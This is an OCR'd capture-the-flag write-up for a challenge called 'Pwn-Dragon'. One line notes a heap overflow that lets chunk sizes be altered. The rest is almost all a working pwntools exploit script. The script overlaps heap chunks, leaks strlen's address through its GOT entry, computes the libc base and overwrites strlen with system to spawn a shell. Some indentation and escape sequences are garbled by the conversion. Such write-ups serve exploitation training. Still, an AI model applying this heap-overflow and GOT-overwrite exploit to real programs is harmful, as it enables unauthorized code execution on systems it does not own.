 <br>

**Pwn-Dragon**

存在堆溢出，可以修改堆结构中的size.

脚本如下：

```
from pwn import *
   
   #r = remote('58.213.63.30', 11501) 
   r = process("./dragon")
   
   def add(size, name, content):
     r.recvuntil('&gt;&gt;')
     r.sendline('1')
     r.recvuntil(':')
     r.sendline(str(size))
     r.recvuntil(':')
     r.sendline(name)
     r.recvuntil(':')
     r.sendline(content)
   
   def edit(id, content):
     r.recvuntil('&gt;&gt;')
     r.sendline('2')
     r.recvuntil(':')
     r.sendline(str(id))
     r.recvuntil(':')
     r.write(content)
   
   def show(id):
     r.recvuntil('&gt;&gt;')
     r.sendline('4')
     r.recvuntil(':')
     r.sendline(str(id))
   
   def delete(id):
     r.recvuntil('&gt;&gt;')
     r.sendline('3')
     r.recvuntil(':')
     r.sendline(str(id))
   
   
 add(0x20, 'AAAA', 'AAAA')
 add(0x20, 'AAAA', 'A'*0x18)
 add(0x20, 'AAAA', 'A'*0x18)
   
 edit(0, 'A'*0x18+p64(0xd1)) # note1
   delete(1)
 add(0x20, 'AAAA', 'A'*0x18)
 strlen_got = 0x602028
   add(0x10, 'AAAA', p64(strlen_got)+'d'*0x10)
 edit(3, p64(strlen_got)) #note2
   show(2)
 r.recvuntil('content: ')
 strlen_addr = u64(r.readline()[:-1].ljust(8, 'x00'))
   print "[*] strlen addr:{0}".format(hex(strlen_addr))
 libc = ELF("./libc-2.19.so")#ELF("/lib/x86_64-linux-gnu/libc.so.6")
   libc_base = strlen_addr - libc.symbols['strlen']
 system_addr = libc_base + libc.symbols['system'] 
 edit(2, p64(system_addr))
   
 edit(0, '/bin/shx00')
 r.interactive()
```